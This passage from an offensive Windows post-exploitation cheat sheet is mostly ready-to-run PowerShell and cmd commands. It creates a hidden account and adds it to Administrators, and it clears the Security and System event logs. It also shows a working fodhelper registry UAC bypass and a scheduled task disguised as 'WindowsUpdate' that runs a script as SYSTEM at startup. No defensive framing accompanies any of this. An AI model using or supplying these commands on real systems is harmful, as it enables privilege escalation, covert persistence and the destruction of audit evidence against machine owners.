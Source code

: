 **Creating a Hidden User**&#x20;

* Create a new user with minimal privileges and a hidden SID:

```powershell
net user hiddenuser Password123 /add /active:no
```

**Modifying Existing User Permissions**&#x20;

* Add a user to the Administrators group:

```powershell
Add-LocalGroupMember -Group "Administrators" -Member "hiddenuser"
```

**Clearing Event Logs**&#x20;

* Clear security event logs:

```powershell
wevtutil cl Security
```

* Clear system event logs:

```powershell
wevtutil cl System
```

## Bypassing User Account Control (UAC)&#x20;

UAC bypass allows for executing elevated processes without triggering security alerts.

**UAC Bypass Using `fodhelper`**&#x20;

```powershell
$command = "Start-Process powershell.exe -ArgumentList '-NoProfile -ExecutionPolicy Bypass'"
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "" -Value $command
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value ""
Start-Process fodhelper.exe
```

**UAC Bypass Using Event Viewer**&#x20;

```powershell
Start-Process eventvwr.msc
```

## Manipulating Scheduled Tasks&#x20;

**Creating a Stealthy Scheduled Task**&#x20;

* Create a scheduled task that runs a script at system startup:

```powershell
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\update.ps1" /sc onstart /ru SYSTEM
```
